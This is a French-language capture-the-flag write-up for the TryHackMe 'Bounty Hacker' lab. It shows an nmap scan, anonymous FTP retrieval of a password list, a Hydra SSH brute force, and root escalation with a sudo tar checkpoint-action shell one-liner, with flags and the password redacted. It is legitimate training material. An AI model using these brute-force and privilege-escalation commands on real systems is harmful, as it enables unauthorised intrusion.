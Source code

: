 ```yaml
---
title: Bounty Hacker
tags: [TryHackMe, Facile, Linux, FTP, Force brute]
style: border
color: thm
comments: false
description: Exploitation d'un serveur web Apache
---
```

Lien vers l'épreuve : <https://tryhackme.com/r/room/cowboyhacker>

![Logo box](https://tryhackme-images.s3.amazonaws.com/room-icons/9ad38a2cc31d6ae0030c888aca7fe646.jpeg)

![Easy](https://img.shields.io/badge/Difficulté-Facile-Green?logo=tryhackme)

## Sommaire <!-- omit in toc -->

* [Reconnaissance](#reconnaissance)
* [Analyse du serveur {% include dictionary.html word="FTP" %}](#analyse-du-serveur--include-dictionaryhtml-wordftp-)
* [Accéder à la machine](#accéder-à-la-machine)
* [Élévation de privilèges](#élévation-de-privilèges)

## Reconnaissance

```bash
nmap -A -T4 bountyhacker.thm
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-19 15:58 CEST
Nmap scan report for bountyhacker.thm (10.10.35.165)
Host is up (0.032s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.2.99
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Aggressive OS guesses: HP P2000 G3 NAS device (89%), Linux 2.6.32 (88%), Infomir MAG-250 set-top box (88%), Ubiquiti AirMax NanoStation WAP (Linux 2.6.32) (88%), Linux 3.7 (88%), Linux 5.0 (88%), Linux 5.0 - 5.4 (88%), Linux 5.1 (88%), Ubiquiti AirOS 5.5.9 (88%), Ubiquiti Pico Station WAP (AirOS 5.2.6) (88%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   31.80 ms 10.9.0.1
2   31.82 ms bountyhacker.thm (10.10.35.165)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.88 seconds
```

Le scan {% include dictionary.html word="NMAP" %} indique la présence d'un serveur {% include dictionary.html word="FTP" %} sur le port 21 accessible anonymement, un serveur {% include dictionary.html word="SSH" %} sur le port 22, et un serveur web Apache sur le port 80.

Le serveur web sert à raconter l'histoire de notre personnage qui semble avoir été quelque peu vantard face aux personnages de l'anime [Cowboy Bebop](https://fr.wikipedia.org/wiki/Cowboy_Bebop) et qu'il va devoir faire ses preuves.

## Analyse du serveur {% include dictionary.html word="FTP" %}

Nous récupérons les 2 documents présents sur le serveur :

```bash
ftp anonymous@bountyhacker.thm
Connected to bountyhacker.thm.
220 (vsFTPd 3.0.3)
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||41895|)
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
ftp> get locks.txt
local: locks.txt remote: locks.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
100% |*******************************************|   418        5.86 KiB/s    00:00 ETA
226 Transfer complete.
418 bytes received in 00:00 (3.98 KiB/s)
ftp> get task.txt
local: task.txt remote: task.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
100% |*******************************************|    68        0.65 KiB/s    00:00 ETA
226 Transfer complete.
68 bytes received in 00:00 (0.49 KiB/s)
```

Le fichier `locks.txt` semble être une liste de mots de passe, et le fichier `task.txt` un plan d'action (machiavélique ?).

```terminal
cat task.txt                   
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

## Accéder à la machine

Le fichier `task.txt` contient le nom `lin` qui pourrait être un utilisateur du serveur. Nous allons tenter de trouver un mot de passe correspondant grâce à l'outil {% include dictionary.html word="Hydra" %} sur le service {% include dictionary.html word="SSH" %}.

```bash
hydra -l 'lin' -P locks.txt bountyhacker.thm ssh                        
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-19 16:27:34
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://bountyhacker.thm:22/
[22][ssh] host: bountyhacker.thm   login: lin   password: Re[...expurgé...]t3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-10-19 16:27:37
```

Nous obtenons le mot de passe de l'utilisateur `lin` nous permettant de nous connecter en {% include dictionary.html word="SSH" %} sur le serveur.

Dès que nous nous connectons à la machine avec les identifiants trouvés, nous arrivons sur le bureau de l'utilisateur, contenant le flag utilisateur :

```bash
ls
user.txt

cat user.txt
THM{[...expurgé...]}
```

## Élévation de privilèges

L'utilisateur `lin` est autorisé à utiliser la commande `/bin/tar` en élevant ses privilèges avec {% include dictionary.html word="sudo" %}.

```bash
sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

Sur le site [GTFOBins](https://gtfobins.github.io/gtfobins/tar/#sudo) nous trouvons le moyen d'abuser de ce privilège pour devenir `root` sur la machine.

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names

id
uid=0(root) gid=0(root) groups=0(root)
```

Maintenant que nous sommes root, nous pouvons récupérer le flag root.

```bash
cd /root

ls
root.txt

cat root.txt
THM{[...expurgé...]}
```